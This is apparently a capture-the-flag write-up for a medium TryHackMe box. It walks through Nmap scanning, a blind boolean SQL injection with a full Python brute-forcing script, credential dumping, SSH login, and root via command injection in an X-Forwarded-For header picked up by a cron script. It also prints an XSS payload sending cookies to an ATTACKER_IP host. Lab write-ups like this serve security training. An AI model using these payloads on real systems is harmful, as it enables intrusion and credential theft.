










This box is rated medium difficulty on THM. It involves us exploiting a blind-based SQL injection to dump user credentials on the website. Doing so rewards us with a reused password that can be used to authenticate over SSH. After discovering a logging script being ran by root, we manipulate a stored variable by making malicious requests to the site in order to inject commands into the script and grab a shell. 

_Map? Where we are going, we don't need maps._

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.64.177.51 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-23 18:58 CST
Nmap scan report for 10.64.177.51
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b9:3b:ec:31:3f:c5:1f:8c:61:69:80:67:aa:90:d3:ca (RSA)
|   256 d5:6b:3b:5f:c7:9e:b9:95:a2:da:2b:52:b6:75:d5:1b (ECDSA)
|_  256 4c:a1:d4:c0:5c:00:7f:54:2f:07:6e:cf:22:c2:44:4f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Before heading over to the website, I fire up Gobuster to search for subdirectories/subdomains in the background. Checking out the landing page shows a plain login panel for the site.



Attempting to use default credentials doesn't succeed to log us in and also supplying bad characters such as a single quote throws an error saying that it's detected SQL injection and that the incident will be logged. Since we don't have a way to bypass this panel to get a session as anyone else, I register a new account under my name.


There's not much to do once we're in except log out and our name doesn't get reflected anywhere, so vulnerabilities like SSTI or Second-Order SQL Injection can be ruled out. Curious as to how the site tracks our login, I check my browser's local storage to find a `PHPSESSID` cookie with the httponly flag set to false. That means if we find any form that gets reflected to another user, we may be able to hijack their sessions with a Cross-Site Scripting payload.

Testing this theory out shows that we can only supply normal characters in our username, but the password field only requires us to use one longer than 6 characters. Maybe our password gets stored in plaintext and the developer will render the page at some point. At this point I try a few common payloads to steal cookies as well as one to bypass any WAFs in place, however nothing works. 

```
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://ATTACKER_IP/" + document.cookie;&lt;/sscriptcript&gt;
```

Attempting to enumerate users via the register page doesn't give us any common ones for admin or developer either. Since the site was under development, I figured that maybe there were backup files or some developer directory that was exposed, but that returned zilch. Checking for a debug parameter on all PHP pages just responded with the typical behavior as well.

## Blind-Based SQL Injection
Stumped as to what we could really go about exploiting, I revisit the login panel for further SQL Injection testing. Strangely, if we use a valid account to login without a password and also used a SQL operator that isn't blacklisted such as `AND`, it works to bypass the login panel.



Confirming that this succeeds to inject queries into the preexisting statement means that we can carry out a blind-based boolean SQL injection attack in order to enumerate the database. First we must figure out how many columns there are for the server to not respond with an error every time.

```
' UNION SELECT 1,2,3,4-- -
```

Looks like there are four columns as we get redirected to the `welcome.php` page. Since nothing is being reflected to the page, we need to enumerate characters for certain strings such as the database or tables using a `LIKE` operator along with a wildcard (`%`) to brute force each alphanumeric character. Obviously, doing that by hand would be mind-numbing so I create a script to speed things up.

**Python script:**

```
import requests

URL = 'http://10.64.177.51/index.php'
INJECT = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
HEADERS = {
    'Host': '10.64.177.51',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://10.64.177.51',
    'Connection': 'close',
    'Referer': 'http://10.64.177.51/index.php',
    'Upgrade-Insecure-Requests': '1',
}

MATCH_SIZE = 618
QUERY_TEMPLATE = "' UNION SELECT 1,2,3,4 WHERE database() LIKE '{prefix}%';-- -"

result = ''

while True:
    for char in INJECT:
        data = {
            'username': QUERY_TEMPLATE.format(prefix=result + char),
            'password': 'password',
        }

        response = requests.post(URL, headers=HEADERS, data=data, allow_redirects=True)

        if len(response.content) == MATCH_SIZE:
            result += char
            break

        if char == INJECT[-1]:
            print('\033[K')
            print(result)
            exit()

        if char != '\n':
            print(result + char, end='\r')
```

Running that shows that our current database is named mywebsite, which we'll use in further queries.



Next, we'll want all tables under that database. We can do so by utilizing the `information_schema` database to pull information from such. For the rest of these attacks, I simply update the query template to contain our newest parameters.

```
' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' and table_name like '{prefix}%' -- -
```



I discover a table named siteusers which we can most likely dump to grab credentials each account. Next, I prep a query to dump the usernames from it

```
' UNION SELECT 1,2,3,4 from siteusers where username like '{prefix}%'-- -
```



_Note: This script is pretty crude so if it only returns your registered username from earlier, update the statement to contain something along the lines of `where username like '{prefix}%' and username != 'CREATED_USER'` to exclude that result._

There are probably more tables and we could also potentially enumerate column names as well, but this is enough to get us going in the right direction. Next, let's try to get the password from it using the same method.

```
' UNION SELECT 1,2,3,4 from siteusers where username = 'kitty' and password like '{prefix}%'-- -
```



That rewards us with a valid password for the kitty user. Logging in on the website shows nothing different and these credentials don't work over SSH, which means something went wrong in my script. After some thought, I realized that it just matches for characters and isn't case sensitive. A bit of research on SQL statements reveals that we can supply the `BINARY` operator beforehand to get an exact match.

```
' UNION SELECT 1,2,3,4 from siteusers where username = 'kitty' and password like BINARY '{prefix}%'-- -
```

Now we can use that recovered password to authenticate via SSH to grab a shell on the box. At this point we can grab the user flag under our home directory and start looking at ways to escalate privileges. 

## Privilege Escalation
As there are no other users on the box, I'll be looking for things owned/being executed by root or places where backup credentials may be insecurely stored. There is a bash script under `/opt` which is used to log IPs into a new directory.



If we display the contents of `/var/www/development/logged`, it is empty which either means that this script is being executed regularly or the site isn't properly logging stuff. I'm going to guess the former, but uploading a tool like [pspy](https://github.com/DominicBreuker/pspy/releases) will confirm that root user has a cronjob running this every minute or so.

The most interesting thing here is how the script reads IPs into root's file. For some reason they spawn a new shell and execute the echo binary via that `-c` flag. If we're able to control the `$IP` variable, command injection into that line would be a piece of cake.

Heading over to the `index.php` page under the development site will show exactly how the server is logging IPs and if it's possible to control it. The following is a trimmed part of the source code which discloses what's happening.

```
<?php
// Initialize the session
session_start();

[...]

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap 
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
 if (preg_match( $evilword, $username )) {
  echo 'SQL Injection detected. This incident will be logged!';
  $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  $ip .= "\n";
  file_put_contents("/var/www/development/logged", $ip);
  die();
 } elseif (preg_match( $evilword, $password )) {
  echo 'SQL Injection detected. This incident will be logged!';
  $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  $ip .= "\n";
  file_put_contents("/var/www/development/logged", $ip); 
  die();
 }
}

[...]

?>
```

If the server detects one of the evil characters listed, then it parses the request sent and stores the `X_Forwarded_For` header in the `$IP` variable which gets sent to `/var/www/development/logged` to be used in the previous script. A bit of messing around with that header in a few POST requests returns nothing.

I was confident that my payloads were functional so I searched for any other web servers that may be running on the box. As suspected, there were two config files inside of `/etc/apache2/sites-enabled/` and printing the `dev_site` one showed a server running internally on port 8080 that also contains a matching `DocumentRoot` value to root user's script.



Since cURL was installed on the box and we only needed to provide a header, there's no need to port forward this or anything too crazy. We'll need to provide the following necessary info and make sure that that our username contains an evil character so that the site will store our arbitrary command in the `$IP` variable. I test it out with a non-malicious header first to confirm it works.

```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" \
-H "X-Forwarded-For: testing" -d "username=0x0x0x&password=testing" \
http://127.0.0.1:8080/index.php
```



Perfect, now all that's left is to supply a malicious command to be ran by root. An important thing to note here is that we'll need to use a trick I just learned recently, which is command substitution. As the script is executing the echo binary, anything we give it won't be executed as of now, however when using this technique, our command gets evaluated before the original one is ran which leads to RCE.

We must also escape the `$` by using `\` so that the process gets ran as root, as we want this command to be written to the logged file first and then executed by the cronjob. In my case, I make a bash clone to `/tmp` and give it an SUID bit so we're able to spawn a shell with elevated privs.

```
curl -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "X-Forwarded-For: \$(cp /bin/bash /tmp/bash; chmod +s /tmp/bash)" \
  -d "username=0x0x0x&password=testing" \
  http://127.0.0.1:8080/index.php
```

After that cURL payload is sent, checking the `/tmp` directory shows our bash clone with the SUID bit, which I use to spawn a root shell and grab the final flag at `/root/root.txt`.



That's all y'all, this box was a nice change of pace from the typical reflected SQL injections and enjoyed the privilege escalation vector. I hope this was helpful to anyone following along or stuck and happy hacking!
